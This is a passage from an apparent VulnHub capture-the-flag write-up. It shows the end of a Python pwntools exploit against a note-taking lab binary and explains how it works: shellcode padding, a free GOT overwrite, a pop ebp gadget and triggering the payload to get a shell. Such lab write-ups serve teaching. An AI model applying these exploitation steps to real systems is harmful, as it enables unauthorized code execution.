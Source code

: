     print("[*] Sending payload to note 1")
    payload = struct.pack("<L", int(pop_ebp,16))
    proc.sendline(b'set')
    print(proc.recvuntil(b">").decode())
    proc.sendline(b'1')
    print(proc.recvuntil(b">").decode())
    proc.sendline(payload)
    print(proc.recvuntil(b">").decode())
    print("[*] Payload sent to note 1 sucessfully")
    
    ```
    - It receives the prompt from the target process and sends the "new" command twice.
    - It crafts a payload by first finding the addresses of two gadgets: a pop ebp gadget and the free function's Global Offset Table (GOT) entry. It converts the addresses to hexadecimal strings.
    - It then creates a shellcode, which is a sequence of assembly instructions that spawn a shell. The shellcode is explained in comments and stored in the shellcode variable.
    - The payload is constructed by concatenating the shellcode with a padding of "A" characters to reach a length of 76 bytes  followed by the address of the free GOT entry packed into a little-endian format.
    - The payload is sent to the target process using the "set" command and note index 0.
    - Another payload is created containing only the address of the pop ebp gadget, which will be used later. This payload is sent to note index 1.
    - It uses the "del" command to delete note index 0, which should trigger the execution of the payload stored in it.
    - It then sends the "0" command to select note index 0, which should trigger the exploit and execute the shellcode.
    - Finally, it confirms that all payloads have been sent successfully.

- The script enters an interactive mode with the proc.interactive() call, allowing the user to interact directly with the target process.this is done to gain control of a shell and perform further actions.

Execuing the script gives us our lovely shell ;), which gives us access to level3 files

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl2_shell.png)

That's it guy's 
thanks for reading through.....
**Arigato**